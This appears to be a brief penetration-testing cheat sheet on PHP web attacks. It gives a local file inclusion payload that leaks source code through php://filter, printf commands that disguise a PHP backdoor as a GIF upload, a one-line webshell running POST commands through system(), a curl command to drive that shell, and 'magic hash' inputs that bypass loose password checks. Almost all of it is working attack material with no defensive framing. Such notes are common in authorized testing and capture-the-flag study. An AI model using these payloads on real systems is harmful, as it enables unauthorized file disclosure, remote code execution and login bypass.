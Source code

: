 === PHP

==== Local File Inclusion

If you have

 include($_GET['page'] . ".php");

You can reveal php contents with:

 ?page=php://filter/convert.base64-encode/resource=index

and some clever scripting.

==== Image Upload

1. Try just taking on an extension: `backdoor.php.gif`
2. Try prefixing the file with a small gif:

  printf "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x00\xff\x00" > backdoor.php.gif
  printf "\x2c\x00\x00\x00\x00\x01\x00\x01\x00\x00\x02\x00\x3b" >> backdoor.php.gif
  cat backdoor.php >> backdoor.php.gif

==== Webshell

  <?php @system($_POST['cmd']); ?>

Use it with curl:

  curl -d 'cmd=/usr/bin/id' http://target/shell.php

<<<

==== Magic Numbers

Some strings will hash to strings that can be interpreted as numbers. Weird huh?

Try the following inputs in password fields:

[cols="1,1,2", options="header"]
|===
|Digest |Input       |Output
|MD5    |240610708   |0e462097431906509019562988736854
|SHA1   |10932435112 |0e07766915004133176347055865026311692244
|===

<<<
